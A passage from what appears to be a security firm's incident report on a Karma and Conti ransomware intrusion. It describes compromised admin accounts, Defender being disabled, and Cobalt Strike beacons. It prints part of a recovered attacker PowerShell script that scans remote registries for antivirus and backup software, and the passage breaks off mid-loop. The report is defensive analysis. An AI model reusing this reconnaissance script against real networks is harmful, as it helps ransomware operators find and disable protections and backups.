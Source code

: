 Two compromised accounts were active on December 3—the Administrator account and a second account with administrative privileges. One of these accounts installed the Chrome browser on the primary file server.
Then, by way of the compromised Administrator account, malware was deployed to one of the organization’s servers. The sample, 64.dll, was identified by SophosLabs as Conti. It was loaded using regsvr.exe. As part of its execution, a batch file, def.bat, was launched, containing commands to disable Windows Defender on the targeted server.
This took place even as Karma was dropping ransom notes on additional systems. Meanwhile, the targeted organization’s network defenses detected and blocked Cobalt Strike activity coming from one of the organization’s mail servers (not the one serving as point of entry). The detected Cobalt Strike C2 communications were to a server in a Netherlands datacenter operated by a Bulgarian hosting company. The second compromised account was used to download Cobalt Strike beacons to additional systems across the network.
Shortly after that, the second compromised account was used to drop a script into a local folder on a domain server, That PowerShell script,  named Get-DataInfo.ps1, gathered network data via Windows Management Instrumentation queries and sent it back to a remote command and control server.  Part of the script was recovered from system logs; it searches for software of interest on computers on the network, including anti-malware and backup software, as well as other software that might interfere with encryption by ransomware.
function Get-Software{
<#Variables#>
$av_list = @("Traps", "threat", "Sentinel", "Defence", "Defender", "Endpoint", "AV", "AntiVirus", "BitDefender", "Kaspersky", "Norton", "Avast", "WebRoo", "AVG", "ESET", "Malware", "Defender", "Sophos", "Trend", "Symantec Endpoint Protection", "Security")
$backup_list = @("Veeam", "Backup", "Recovery", "Synology", "C2", "Cloud", "Dropbox", "Acronis", "Cobian", "EaseUS", "Paragon", "IDrive" )
$exclude_list = @("KONICA", "UltraVnc", "Update", "Hitachi Storage Navigator Modular", ".NET", "Office", "Adobe", "Word", "Excel", "Outlook", "PowerPoint", "Publisher", "Java", "Office", "Learning", "Support", "done")
$computername = Get-Content ".\result\livePCs.txt" -ReadCount 0  
$ErrorActionPreference = "Stop"
$Branch = "LocalMachine"
$SubBranch = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall"
$SubBranch64 = "SOFTWARE\\Wow6432Node\\Microsoft\\Windows\\CurrentVersion\\Uninstall"
$tabName = "SampleTable"
$table = New-Object system.Data.DataTable $table_name
$col1 = New-Object system.Data.DataColumn SystemName,([string])
$col2 = New-Object system.Data.DataColumn Type,([string])
$col3 = New-Object system.Data.DataColumn Name,([string])
$col4 = New-Object system.Data.DataColumn Hide,([string])
$table.columns.add($col1)
$table.columns.add($col2)
$table.columns.add($col3)
$table.columns.add($col4)
$computers = $computername.Length
$x = 0
write-host -foregroundcolor cyan "Grubbing Software.info"
write-host -foregroundcolor cyan "Testing $computers computers, this may take a while."
foreach ($computer in $computername)  
{
if (Test-Connection -ComputerName $computer -Quiet -count 2 -BufferSize 4 -Delay 1){
        Try{
            $registry=[microsoft.win32.registrykey]::OpenRemoteBaseKey($Branch,$computer)
$registrykey=$registry.OpenSubKey($Subbranch)
            $SubKeys=$registrykey.GetSubKeyNames()
            Foreach ($key in $subkeys){
                                       $exactkey=$key  
                                       $NewSubKey=$SubBranch+"\\"+$exactkey  
                                       $ReadUninstall=$registry.OpenSubKey($NewSubKey)  
                                       $Value=$ReadUninstall.GetValue("DisplayName") 
  foreach($exclude in $exclude_list){
  if($Value -notmatch $exclude){
  foreach ($ Av in $ av_list) {
  if ($ Value -match $ Av) {